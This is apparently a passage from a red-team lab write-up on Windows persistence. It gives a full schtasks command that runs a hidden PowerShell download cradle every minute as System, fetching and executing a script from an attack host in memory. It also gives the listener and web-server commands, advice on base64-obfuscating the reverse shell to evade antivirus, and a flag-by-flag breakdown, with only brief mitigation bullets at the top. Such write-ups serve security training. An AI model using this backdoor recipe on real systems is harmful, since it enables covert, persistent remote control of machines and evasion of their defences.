     -   **Potential Defenses/Mitigation's**:
        -   **Monitor Scheduled Tasks**: Regularly check for unauthorized or unusual tasks, especially those scheduled to run frequently or with `System` privileges.
        -   **Network Monitoring**: Identify repeated outgoing connections to unknown IPs and ports, especially if made by `nc64.exe` or similar executables.


##### Version 2: Using a base64 encoded PowerShell reverse shell and download cradle to connect back to our attack host: {#version-2-using-a-base64-encoded-powershell-reverse-shell-and-download-cradle-to-connect-back-to-our-attack-host}

-   So using the above method with nc64.exe is great and all, but an n64.exe binary will stick out like a sore thumb. A better option would be to create a powershell script and use a download cradle to call back to ourselves, this way everything is loaded in memory and nothing is written to the disk (bar our registry entry)

-   **Create our reverse-shell script**:
    -   I use a base64 obfuscated powershell reverse shell as otherwise the AV was able to detect it. I like using <https://revshells.com> for this
        -   {{< figure src="/ox-hugo/2024-11-05-134155_.png" >}}

-   **We then need to create our scheduled task**:
    -   `schtasks /create /tn ScriptCradle /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((New-Object Net.WebClient).DownloadString(''http://10.10.14.121:8080/script.ps1'''))'" /sc minute /mo 1 /ru System`
    -   {{< figure src="/ox-hugo/2024-11-05-133749_.png" >}}

-   **Start our listener &amp; webserver**:
    -   Webserver:
        -   `python3 -m http.server [port]`
    -   Listener:
        -   `rlwrap -cAr nc -nvlp 53`

-   **The task grabs our script &amp; immediatley executes it in memory**:
    -   {{< figure src="/ox-hugo/2024-11-05-134010_.png" >}}

-   **We get our revere shell**:
    -   {{< figure src="/ox-hugo/2024-11-05-134027_.png" >}}

-   **Double check by disconnecting &amp; seeing if it re-connects and it does**:
    -   {{< figure src="/ox-hugo/2024-11-05-134907_.png" >}}



-  Scheduled Task Backdoor Utilizing Download Cradle Command Breakdown:

    -   `schtasks /create`
        -   Creates a new scheduled task on Windows.
    -   `/tn ScriptCradle`
        -   Sets the task name to `ScriptCradle`.
        -   This name is how the task will appear in the Task Scheduler.
    -   `/tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe`
        -   Specifies the action that the task will execute.
        -   `powershell.exe`: Starts PowerShell.
        -   **Arguments passed to powershell**:
            -   `-WindowStyle hidden`: Runs the task in a hidden window to prevent showing the PowerShell window.
            -   `NoLogo -NonInteractive -ep bypass -nop`: PowerShell flags to suppress output and allow script execution bypassing restrictions.
            -   `IEX ((New-Object Net.WebClient).DownloadString(...))`: Uses `Invoke-Expression` to download and immediately execute the script.
            -   `/sc minute /mo 1`: Sets the task to run every 1 minute.
            -   `/ru System`: Runs the task under `System` privileges.
